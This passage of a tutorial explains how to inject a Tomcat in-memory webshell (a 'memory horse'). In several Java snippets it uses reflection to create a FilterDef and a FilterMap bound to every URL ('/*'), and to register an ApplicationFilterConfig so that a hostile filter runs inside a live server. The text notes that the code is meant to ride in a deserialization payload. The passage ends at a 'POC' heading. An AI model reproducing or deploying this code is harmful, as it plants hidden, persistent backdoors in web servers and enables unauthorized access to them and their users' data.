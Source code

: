 ### Create filterDef encapsulate Filter object
The following code fuses the memory horse into the deserialized `payload`, so reflection is used here to obtain the `FilterDef` object. If you are using `jsp` or non-deserialization, you can directly use `new` to create the object.

```java
Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
Constructor filterDefDeclaredConstructor = FilterDef.getDeclaredConstructor();
FilterDef filterDef = (FilterDef) filterDefDeclaredConstructor.newInstance();
filterDef.setFilter(filter);
filterDef.setFilterName(FilterName);
filterDef.setFilterClass(filter.getClass().getName());
standardContext.addFilterDef(filterDef);
```

### Create filterMap binding URL
Create an instance of `FilterMap` through reflection. This part of the code mainly registers the effective route of `filter` and adds the `FilterMap` object to the first of the `FilterMaps` variable in `standardContext`.

```java
Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
Constructor filterMapDeclaredConstructor = FilterMap.getDeclaredConstructor();
FilterMap filterMap = (FilterMap) filterMapDeclaredConstructor.newInstance();
filterMap.addURLPattern("/*");
filterMap.setFilterName(FilterName);
filterMap.setDispatcher(DispatcherType.REQUEST.name());
standardContext.addFilterMapBefore(filterMap);
```

### Get the `filterConfigs` variable and add the `filterConfig` object
First get the filterConfigs variable stored in the `standardContext`, then generate the `ApplicationFilterConfig` object through reflection and put it in the `filterConfigs hashMap`.

```java
Configs = standardContext.getClass().getDeclaredField("filterConfigs");
Configs.setAccessible(true);
filterConfigs = (Map) Configs.get(standardContext);
```

```java
Class<?> Application
FilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
Constructor<?> applicationFilterConfigDeclaredConstructor = ApplicationFilterConfig.getDeclaredConstructor(Context.class, FilterDef.class);
applicationFilterConfigDeclaredConstructor.setAccessible(true);
ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) applicationFilterConfigDeclaredConstructor.newInstance(standardContext, filterDef);
filterConfigs.put(FilterName, filterConfig);
```

## POC
### Java version
